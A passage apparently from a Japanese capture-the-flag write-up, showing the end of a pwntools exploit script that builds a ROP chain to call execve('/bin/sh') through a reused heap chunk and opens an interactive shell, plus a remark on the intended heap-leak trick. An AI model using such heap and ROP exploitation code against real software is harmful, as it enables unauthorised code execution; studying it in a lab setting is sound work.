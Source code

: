 ```python
payload[6+5] = fake+0x80
payload[6+6] = rdi
payload[6+7] = fake-0x40
payload[6+8] = setrdx
payload[6+9] = rsi
payload[6+10] = 0
payload[6+11] = rdi
payload[6+12] = fake + 8*16
payload[6+13] = rax
payload[6+14] = 0x3b
payload[6+15] = syscall
payload[6+16] = u64(b'/bin/sh\x00')

payload[6+21] = 0

# retake 0x110 sized chunk ( = old tasks ) and place our payload
binary(payload, 0x1)

if args.D:
	#debug(r, [0x77740,0x6f134, 0x6e99b, 0x6f11c])
	debug(r, [0x6e98e])

resume(0)
r.interactive()
r.close()
```

ちなみに最初のリーク部分の想定解は「fast_algoで16桁以上の数字を返させる。」だったようで、16桁以上表示するとstringがポインタを持つことを利用して、これがラムダの外で壊れてから表示されるのでヒープが漏れるという内容です。とてもかしこい。
